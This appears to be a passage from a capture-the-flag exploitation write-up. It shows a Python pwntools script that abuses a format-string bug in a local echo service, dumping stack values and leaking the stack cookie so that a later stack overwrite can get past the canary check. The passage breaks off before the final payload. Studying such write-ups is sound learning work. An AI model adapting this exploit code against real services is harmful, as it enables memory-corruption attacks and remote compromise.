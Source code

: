 ```asm
    int 0x80
```

## Fire ze missles!

After combining the above, we now have a very stable exploit that works regardless of file descriptor location, and the inability for us to write memory locations with `%n`!

![](img/pwnie_exploit.png)

```python
import socket
import struct
import time

from pwn import *

r = remote('127.0.0.1', 4321)

r.recvuntil("Type string to echo back: ")

# Helper function to dump out current stack variables
def dump_stack(num_of_vars=101):
    """
    Example output:
        $ESP+004[$01]:0x0000003f
        $ESP+008[$02]:0x00000000
        $ESP+012[$03]:0x080483a0
        $ESP+016[$04]:0x08048370
        ...SNIP...
    """
    for x in range(1, num_of_vars):
        r.send("0x%%%d$08x" % x)
        rec = r.recvuntil("Type string to echo back: ")
        print "$ESP+%03d[$%02d]:0x%08x" % ((x * 4), x, int(rec[6:16],16))

def get_stack_cookie():
    """
    Retrieves the stack cookie that we will clobber in subsequent calls. 
    We have to repair it lest __stack_chk_fail() gets called.
    """
    # Stack cookie is stored in arg 26 ($esp+104)
    stack_cookie = "0x%26$08x"
    r.send(stack_cookie)
    rec = r.recvuntil("Type string to echo back: ")

    # Trim out the cookie, and cast it to an int
    cookie = int(rec[6:16],16)
    
    # Convert to the proper endianness and remove null byte (we fix this later)
    cookie_str = struct.pack("<L", cookie).replace("\x00","\xFF")
    
    print "[+] Cookie: %s" % hex(cookie)
    return cookie_str
```
